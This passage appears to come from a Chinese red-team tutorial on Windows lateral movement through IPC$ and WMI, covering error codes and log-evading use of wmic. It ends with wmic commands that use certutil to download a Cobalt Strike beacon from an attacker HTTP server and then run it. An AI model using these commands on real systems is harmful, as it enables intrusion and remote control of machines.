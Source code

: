 > 常见问题：

```yaml
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
51：网络问题，Windows无法找到网络路径
53：找不到网络路径，可能是IP地址错误. 目标未开机. 目标Lanmanserver服务未启动. 有防火墙等问题
67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
1326：账号密码错误
1792：目标NetLogon服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

> 建立 IPC 失败的原因：

```bash
（a）目标系统不是 NT 或以上的操作系统
（b）对方没有打开 IPC$共享
（c）对方未开启 139. 445 端口，或者被防火墙屏蔽
（d）输出命令。账号密码有错误
```

## [](#WMI%E6%A8%AA%E5%90%91 "WMI横向")WMI 横向[](#WMI%E6%A8%AA%E5%90%91)

`WMI`是通过`135`端口进行利用，支持明文用户密码或者`hash`的方式认证，并且该方法不会在目标日志系统留下痕迹。使用 wmic 远程执行命令，在远程系统中启动`windows management lnstrumentation` 服务（目标服务器需要开放`135`端口，`wmic`会以管理员权限在远程系统中执行命令）。如果目标服务器开启了防火墙，wmic 将无法进行连接。`wmic命令没有回显`，需要使用 ipc$和 type 命令来读取信息，若使用 wmic 执行恶意程序，`将不会留下日志`。

利用前提和注意事项：

1.  目标防火墙已事先允许 135. 445 端口连入，且本地杀软。EDR 未拦截 wmic.exe,cmd.exe 等执行；
2.  有些域账户只允许在指定的域内机器上才可登录，所以如果发现账密是对的，却会提示“拒绝访问” ；
3.  出现提示”无效句柄”之类的错误，可尝试把目标 ip 换成机器名或者把机器名换成 ip，ip 或机器名用双引号包起来；
4.  当提示“RPC 服务器不可用”时，有可能是目标防火墙导致 135 端口不通，或者目标系统没开 135 端口，要么就是被对方杀软或 EDR 拦截。

### [](#wmic "wmic")wmic[](#wmic)

#### [](#wmic-1 "wmic")wmic[](#wmic-1)

无需上传第三方软件，利用系统内置程序，执行过程中有单模式执行和交互式执行  
可以只执行命令，`或者反弹shell`  
单命令执行，执行后无结果回显，可以将木马上传到该内网 web 目录下，然后调用文件下载命令上线 cs：

```bash
# 请先提前搭建一个http服务器 如python一句话或phpstudy 放入木马exe文件

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"

# 运行文件并上线

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "c:\windws\system32\cmd.exe c:\beacon.exe"
```
